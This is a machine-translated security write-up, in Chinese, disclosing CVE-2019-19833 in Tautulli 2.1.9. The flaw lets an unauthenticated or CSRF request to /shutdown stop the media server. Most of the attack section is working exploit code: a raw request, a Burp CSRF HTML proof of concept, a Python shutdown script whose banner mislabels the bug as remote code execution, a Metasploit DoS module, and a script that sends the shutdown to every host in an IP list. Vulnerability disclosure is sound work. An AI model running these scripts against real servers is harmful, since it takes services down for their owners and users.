

# 陶图利 2.1.9 版本；跨站点请求伪造(关闭)和拒绝服务(Metasploit)

> 原文：<https://infosecwriteups.com/tautulli-2-1-9-version-cross-site-request-forgery-shutdown-and-denial-of-service-metasploit-f23d6b1fc464?source=collection_archive---------3----------------------->



陶图里 2 . 1 . 9(CVE-2019–19833)

在做安全研究的时候，我偶然发现了一个叫 Tautulli 的产品。我开始检查相关的应用程序。我在这个产品中发现了两个安全漏洞。可以创建 CSRF 和 DDOS 效果。因此，可以远程关闭媒体服务器。

主要问题是对/shutdown 参数函数的匿名访问。经过长期的斗争，我发现了这一点。

**详情:**

在 Tautulli 制造商的 v2.1.9 的相应版本中，已经发现在没有用户登录区域的应用中可以实现匿名访问，并且可以关闭远程媒体服务器。

**什么是陶图利？**

Tautulli 是一个第三方应用程序，允许您监控和跟踪您的 Plex 媒体服务器活动。它提供了一个基于 web 的界面，让您可以查看有关媒体库的统计数据和信息，包括观看过的内容、观看者和设备。Tautulli 还提供了一些功能来帮助您管理 Plex 媒体服务器，如查看和删除用户、更新媒体元数据以及为特定事件设置通知。

Tautulli 是用 Python 编写的，可以安装在各种平台上，包括 Windows、macOS 和 Linux。它需要运行 Plex 媒体服务器才能运行，并且可以使用服务器的 IP 地址和安装期间指定的端口通过 web 浏览器进行访问。

除了核心功能之外，Tautulli 还提供了几个可选插件，可以添加额外的功能，如自动更新媒体元数据或通过 Discord 发送通知。

**漏洞信息:**

漏洞标题:tau tulli 2 . 1 . 9-跨站点请求伪造(关闭)

Exploit 作者:Ismail Tasdelen

供应商主页:https://tautulli.com/

软件:https://github.com/Tautulli/Tautulli

产品版本:v2.1.9

平台:Windows 10 (10.0.18362)

Python 版本:2.7.11 (v2.7.11:6d1b6a68f775，2015 年 12 月 5 日 20:40:30)[MSC v . 1500 64 bit(AMD64)]

漏洞类型:跨站点请求伪造(关闭)

漏洞:跨站点请求伪造

CVE:CVE-2019–19833

在 Tautulli 2.1.9 中，/shutdown URI 中的 CSRF 允许攻击者**关闭远程媒体服务器。**(同样，**匿名访问**可以在没有用户登录区的应用中实现)。

> **CVSS 评分:**

CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H

> **HTTP GET 请求:**

*获取/关闭 HTTP/1.1 主机:XXX。XXX.XXX.XXX:8181 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64RV:71.0)Gecko/2010 01 01 Firefox/71.0 接受:text/html，application/xhtml+xml，application/XML；q=0.9，*/*；q=0.8 Accept-Language: en-US，en；q=0.5 Accept-Encoding: gzip，deflate Connection:close Referer:http://XXX.XXX.XXX.XXX:8181/home 升级-不安全-Requests: 1*

> **CSRF 概念验证 HTML :**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://XXX.XXX.XXX.XXX:8181/shutdown">
      <input type="submit" value="Submit request" />
    </form>
  </body>
```

> **Python 代码:**

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests

icon = """
 _____ __  _  _ _____ _  _ _   _   _   _   _ ___   __  ___
|_   _/  \| || |_   _| || | | | | | | | \ / (_  | /  |/ _ \
  | || /\ | \/ | | | | \/ | |_| |_| | `\ V /'/ /__`7 |\__ /
  |_||_||_|\__/  |_|  \__/|___|___|_|   \_/ |___\/ |_\//_/
     Unauthenticated Remote Code Execution
                                   by Ismail Tasdelen
"""

print(icon)

host = input("[+] HOST: ")
port = input("[+] PORT: ")

response = requests.get("http://" + host + ":" + port + "/" + "shutdown" ) # You can also run the restart and update_check commands.

if response.status_code == 200:
    print('[✓] Success!')
elif response.status_code != 200:
    print('[✗] Unsuccessful!')
else:
    exit()
```

> **拒绝服务(Metasploit) :**

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient

  def initialize
    super(
      'Name'        => 'Tautulli v2.1.9 - Shutdown Denial of Service',
      'Description' => 'Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.',
      'Author'      => 'Ismail Tasdelen',
      'License'     => MSF_LICENSE,
      'References'  =>
      [
        ['CVE', '2019-19833'],
        ['EDB', '47785']
      ]
    )
    register_options([ Opt::RPORT(8181) ])
  end

  def run
    res = send_request_raw({
      'method' => 'GET',
      'uri' => '/shutdown'
    })

    if res
      print_status("Request sent to #{rhost}")
    else
      print_status("No reply from #{rhost}")
    end
  rescue Errno::ECONNRESET
    print_status('Connection reset')
  end
end
```

现在我开发了一个攻击代码。我们正在开发一个攻击代码，它使用 Python 编程语言将 ip 或主机名列表检查为 http 或 https，并使用 firefox 用户代理向/shutdown 参数发送请求，如下所示。

```
import requests

# Read the IP list from the file
with open('ip_list.txt', 'r') as f:
    ip_list = f.readlines()

# Iterate over the IP list
for ip in ip_list:
    ip = ip.strip()  # Remove any whitespace from the end of the line
    if not ip.startswith('http://') and not ip.startswith('https://'):
        # The IP is not using HTTP or HTTPS, so send the request
        url = f'http://{ip}:8181/shutdown'
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'}
        response = requests.get(url, headers=headers)
        print(response.status_code)  # Print the HTTP status code of the response
```

**参考文献:**

[](https://nvd.nist.gov/vuln/detail/CVE-2019-19833) [## NVD

### 正在进行重新分析此漏洞已被修改，目前正在进行重新分析。请回来查看…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-19833) [](https://www.rapid7.com/db/modules/auxiliary/dos/http/tautulli_shutdown_exec/) [## Tautulli v2.1.9 -关闭拒绝服务

### Rapid7 的 VulnDB 是经过审查的计算机软件漏洞和可利用漏洞的精选存储库。

www.rapid7.com](https://www.rapid7.com/db/modules/auxiliary/dos/http/tautulli_shutdown_exec/) [](https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/dos/http/tautulli_shutdown_exec.rb) [## 主 rapid7/metasploit-framework 上的 metasploit-framework/tau tulli _ shut down _ exec . Rb

### Metasploit 框架。通过在 GitHub 上创建帐户，为 rapid7/metasploit-framework 开发做出贡献。

github.com](https://github.com/rapid7/metasploit-framework/blob/master//modules/auxiliary/dos/http/tautulli_shutdown_exec.rb) [](https://www.exploit-db.com/exploits/47929) [## 攻击性安全利用数据库档案

### #此模块需要 Metasploit:https://metasploit.com/download #当前源…

www.exploit-db.com](https://www.exploit-db.com/exploits/47929) [](https://cve.report/CVE-2019-19833) [## CVE-2019-19833

### CVE-2019-19833 是一个与安全漏洞相关的披露标识符，详细信息如下。在陶图利…

cve .报告](https://cve.report/CVE-2019-19833) 

杰克·斯派洛船长——加勒比海盗

在这篇文章中，我提到了我在过去几年中发现的一个安全问题。保重，在我的下一篇文章中再见。